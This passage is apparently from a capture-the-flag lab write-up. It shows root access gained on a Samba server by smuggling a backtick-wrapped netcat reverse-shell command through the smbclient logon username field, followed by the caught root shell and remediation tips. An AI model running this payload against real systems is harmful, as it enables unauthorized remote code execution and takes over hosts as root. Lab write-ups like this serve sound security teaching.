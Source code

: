 I have **WRITE permissions on tmp**, so let's access it and see If I can put here my reverse shell:

{{< highlight html >}}
smbclient \\\\10.10.10.3\\tmp
Enter WORKGROUP\lafxo's password:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "/=`nohup nc -nv 10.10.14.18 4447 -e /bin/sh`"
Password:
{{< /highlight  >}}

After a few seconds, I receive the reverse shell on my listener, and I can see I'm already root!

{{< highlight html >}}
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.3]
39442                                                                                                                    
whoami
root
{{< /highlight >}}



## Lessons learned and remediations

- Whenever possible run a full port scan. With the default port scan it was impossible to identify the port 3632, which leaded to exploitation!
- The machine was exploited thanks to publicly available exploits. So always update the software!
- Restrict access to the server by disabling WRITE access where not necessary, as it could easily become a way for exploitation.
